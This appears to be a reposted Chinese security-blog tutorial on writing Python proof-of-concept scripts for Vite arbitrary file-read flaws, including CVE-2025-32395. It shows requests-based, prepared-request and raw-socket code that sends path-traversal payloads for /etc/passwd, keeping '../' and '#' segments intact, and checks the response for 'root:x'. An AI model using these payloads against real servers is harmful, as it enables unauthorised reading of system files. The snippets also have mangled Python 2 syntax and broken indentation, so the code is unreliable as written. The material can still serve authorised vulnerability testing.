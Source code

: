 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzkyMDM4NDM5Ng==&mid=2247493032&idx=1&sn=446bce08c989729bf517668ad0f60683

#  python POC发包高级技巧  
jylove  安全洞察知识图谱   2025-06-30 00:27  
  
**免责声明**  
 由于传播、利用本公众号所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号安全洞察知识图谱及作者不为**此**  
承担任何责任，一旦造成后果请自行承担！如有侵权烦请告知，我们会立即删除并致歉。谢谢！  
## 1工具介绍  
### 一 正常发包  
  
刚好最近有个热门的漏洞Vite系列的漏洞，通过该漏洞我们来学习一下  
通过我们用python写POC的时候，我们大部分都是利用python的request的模块来进行发包利用的  
正常情况下都是这样写的POC  

```
response = requests.get(url_base + &#34;/@fs/root/vite-project/?/../../../../../etc/passwd?import&?raw&#34;, proxies=proxies,verify=False,headers=headers)
```

  
其中我们的路径要是比较正常的时候我们通过request模块发包的时候，我们就是能够正常把这个路径发出去的，我们通过bp抓包验证一下  
  
![1698X670/image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/PDVoxXx6RhicGEQtOd3p5iaFt1JhVGxiaSAMpMXLaib8zwcWykHVTzkibr3Qhsv3ic6wzOpemMnq8w9KlD3NfmMrFs7w/640?wx_fmt=png&from=appmsg "")  
  
可以看到bp抓到的路径和我们想发出去的路径是一样的，接下来我们假设我们需要发送的路径是这样的  

```
response = requests.get(url_base + &#34;/../../../../../etc/passwd?import&?raw&#34;, proxies=proxies,verify=False,headers=headers)
```

  
再次使用request模块发包的时候，用bp抓包看下  
  
![1701X696/image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/PDVoxXx6RhicGEQtOd3p5iaFt1JhVGxiaSAyiaV3jmGHTJckeTiaObGseYm42hE0WmJjKxRTnDh5OfibwkfG5WD8Hnyg/640?wx_fmt=png&from=appmsg "")  
  
### 二 进阶发包技巧  
  
我们在bp中抓到的包的路径就是变成了"/etc/passwd?import&?raw"，"/../../"在requests中会被吞噬掉，导致我们无法完成利用，这也是在写POC中经常不注意到的一个点，明明手工利用的是时候可以利用，怎么写脚本的时候不行呢，这种时候就可以bp抓包看看想要发送的数据包是不是跟抓到的一样啦。像这种利用的路径，我们还是得用python来实现时怎么实现呢，干货来了  

```
    check_url=url_base + &#34;/../../../../../etc/passwd&#34;
    s = requests.Session()
    r = requests.Request(method='GET', url=check_url)
    prep = r.prepare()
    prep.url = check_url
result= s.send(prep, verify=False, timeout=10,)
    print result.text
```

  
注意别使用bp代理抓包，经过bp后发送出去的包也是会被吞噬掉“/../../"，我们直接通过wireshark捕获流量验证一下  
  
![1660X603/image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/PDVoxXx6RhicGEQtOd3p5iaFt1JhVGxiaSAtHpZPibdtJMqYClKic0Nwj46RsRt6xI0AYAdqFMQePNCA85lsMm7vHCg/640?wx_fmt=png&from=appmsg "")  
  
可以看到wireshark发包是能正常刚才的方法把这个路径发送出去的"/../../../../../etc/passwd"  
  
而正常的request模块发包模块则变成了"/etc/passwd?import&?raw"  
### 三 高阶发包技巧  
  
接下来我们来看这个漏洞Vite 文件读取漏洞(CVE-2025-32395)  
看官方的POC是这种形式的  
  

```
&#34;/@fs/root/vite-project/#/../../../../../etc/passwd&#34;
```

  
路径中带了#，我们用刚才的两种方式发包测试一下  

```
    方式1：
    lin_response = requests.get(url_base + &#34;/@fs/root/vite-project/#/../../../../../etc/passwd&#34;, proxies=proxies,verify=False,headers=headers)
    方式2：
    check_url=url_base + &#34;/@fs/root/vite-project/#/../../../../../etc/passwd&#34;
    s = requests.session()
    r = requests.Request(method='GET', url=check_url)
    prep = r.prepare()
    prep.url = check_url
result= s.send(prep, verify=False, timeout=10,proxies=proxies)
    print result.text
```

  
通过bp代理和wireshark抓包看下，抓到的包的路径都变成了/@fs/root/vite-project，"/#/../../../../../etc/passwd"这个路径都丢失了，这是因为根据 RFC 3986 标准，# 在 URL 中定义为 片段标识符（Fragment），浏览器和 HTTP 客户端库（如 requests）会默认将其后的内容截断，不会发送到服务端，这意味着：若 # 不编码，其后的路径永远无法到达服务端。所以这个无法通过requests相关脚本来实现  
  
![876X655/image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/PDVoxXx6RhicGEQtOd3p5iaFt1JhVGxiaSAqcsRSLBfyp70ywan0m2YsKkCXZ2s4U1FLlJXsMx0dyHwoV3GK9VGnA/640?wx_fmt=png&from=appmsg "")  
  
![2140X373/image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/PDVoxXx6RhicGEQtOd3p5iaFt1JhVGxiaSAzw5ylf0UJaPjDibxL5bYjoHjKFcm7vMvib22KEz6dlGsib0IH6tCNPDdg/640?wx_fmt=png&from=appmsg "")  
  
接下来就得使用我们的最后一个终极大法了，绕过 HTTP 协议限制，使用原始 Socket 控制：直接通过 socket 库发送字节流，避免高级 HTTP 库（如 urllib2 或 requests）自动处理 #  
  
通过wireshark抓包，看下我们的路径已经完整发出去了，服务器也能完成处理  
  
![2401X357/image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/PDVoxXx6RhicGEQtOd3p5iaFt1JhVGxiaSAIXicwo3EwNmGQKG2R7WsB87zsPeUoyknI1OXNXPlPdBCKbFRaalRicVQ/640?wx_fmt=png&from=appmsg "")  
  
通过回显，我们也能看到漏洞能完成利用  
  
![1288X432/image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/PDVoxXx6RhicGEQtOd3p5iaFt1JhVGxiaSAYecFxZDWDBibayZMdChGQ3gsvopbR5XgykYVDaPgZfpS1noKjJdz4icw/640?wx_fmt=png&from=appmsg "")  
  
关键代码如下  

```
import socket
from urlparse import urlsplit
    parsed_url = urlsplit(url_base)
    netloc = parsed_url.netloc
    paths = [&#34;/@fs/root/vite-project/#/../../../../../etc/passwd&#34;]
if':'in netloc:
        host, port = netloc.split(':', 1)
        port = int(port)
else:
        host = netloc
# 根据协议设置默认端口
if parsed_url.scheme == 'http':
            port = 80
elif parsed_url.scheme == 'https':
            port = 443
else:
            port = None
for path in paths:
        request = (
&#34;GET {path} HTTP/1.1\r\n&#34;
&#34;Host: {host}:{port}\r\n&#34;
&#34;User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36\r\n&#34;
&#34;Connection: close\r\n&#34;
&#34;\r\n&#34;
        ).format(path=path, host=host,port=port)
# 发送请求
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host, port))
        s.sendall(request.encode())
# 接收响应
        response = s.recv(4096)
if&#34;root:x&#34;in response.decode():
print url_base,path,response.decode()
```

### 四 后言  
  
各位还有什么技巧可以分享交流一下的么，大家一起共同进步  
  
转自火线Zone社区，原文作者jylove，如有侵权请联系删除谢谢  
## 2免费社区  
  
安全洞察知识图谱星球是一个聚焦于信息安全对抗技术和企业安全建设的话题社区，也是一个  
**[免费]**  
的星球，欢迎大伙加入积极分享红蓝对抗、渗透测试、安全建设等热点主题  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/PDVoxXx6Rh8aia4mibs0I8I42MrYYOSE2DVEpVpPHvxufMGR0yufpgouwIXEl7H5eLm0MgolGFQMDFIrKLTxaYIQ/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/PDVoxXx6RhicGEQtOd3p5iaFt1JhVGxiaSAUYNIF4tgKgmLPuuZJuEQ1iaf1TNcJgiaImlgGb8lxWyf8NGFNkZr3e1A/640?wx_fmt=jpeg&from=appmsg "")  
  
  
